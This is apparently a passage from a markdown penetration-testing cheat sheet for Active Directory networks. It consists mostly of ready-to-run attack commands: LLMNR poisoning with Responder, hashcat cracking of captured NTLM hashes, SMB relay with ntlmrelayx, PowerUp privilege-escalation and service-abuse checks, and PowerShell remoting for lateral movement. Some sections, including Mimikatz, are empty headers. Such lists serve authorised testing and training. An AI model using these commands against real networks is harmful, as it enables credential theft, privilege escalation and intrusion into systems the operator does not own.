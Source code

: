 ## User Hunting
```powershell
Find-LocalAdminAccess -Verbose

# Invoke-SessionHunter
Invoke-SessionHunter -FailSafe
Invoke-SessionHunter -NoPortScan -Targets [computers.txt] #Opsec Friendly
```

## Bloodhound


>[Up](#table-of-contents) :arrow_up:
# Initial Attacks Vectors

## LLMNR Poisoning
```sh
responder -I [interface] -dPv
hashcat -m 5600 [hash.txt] /wordlist/
```

## SMB Relay
```sh
# check
nmap -v --script=smb2-security-mode.nse -p445 [IP] -Pn 
# I prefer netexec:
nxc smb <IP/CIDR> --gen-relay-list relay_list.txt
# attack
impacket-ntlmrelayx -tf relay_list.txt -smb2support -i
```
# Local Privilege Escalation
```powershell
# Load PowerUp
Import-Module PowerUp.ps1
Invoke-AllChecks
```
## Service Abuse
```powershell
# Services Issues
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Get-ModfiableService - Verbose
```
>[Up](#table-of-contents) :arrow_up:
# Lateral Movement
## Powershell Remoting
```powershell
# Needs admin access
Import-Module Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
$Sess = New-PSSession -ComputerName [computer name]
Enter-PSSession -Sessions $Sess

```
## Invoke-Mimikatz
```powershell
```